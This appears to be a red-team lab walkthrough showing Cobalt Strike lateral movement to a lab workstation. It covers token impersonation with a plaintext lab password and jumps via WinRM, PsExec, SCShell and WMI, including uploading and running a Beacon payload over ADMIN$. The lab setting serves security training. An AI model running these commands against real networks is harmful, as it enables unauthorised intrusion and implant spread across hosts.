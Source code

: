 We know from the Discovery lab that rsteel is a local admin on _lon-ws-1_. For the sake of this lab, impersonate them using plaintext credentials:

1.  make_token CONTOSO\rsteel Passw0rd!
    
2.  Test access to the target by listing its C$ share.
    
    1. ls \\lon-ws-1\c$

## Windows Remote Management

1.  Using WinRM, move laterally to _lon-ws-1_.
    1. jump winrm64 lon-ws-1 smb

## PsExec

1.  Using PsExec, move laterally to _lon-ws-1_.
    1. jump psexec64 lon-ws-1 smb

## SCShell

1.  Load the SCShell aggressor script.
    
    1. C:\Tools\SCShell\CS-BOF\scshell.cna
    
    > Cobalt Strike > Script Manager
    
2.  Using SCShell, move laterally to _lon-ws-1_.
    
    1. jump scshell64 lon-ws-1 smb

## WMI

1.  Change Beacon's working directory.
    
    1. cd \\lon-ws-1\ADMIN$
2.  Upload a Beacon payload to the target.
    
    1. upload C:\Payloads\smb_x64.exe
3.  Execute the payload using remote-exec.
    
    1. remote-exec wmi lon-ws-1 C:\Windows\smb_x64.exe
4.  Link to the new Beacon.
    
    1. link lon-ws-1 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
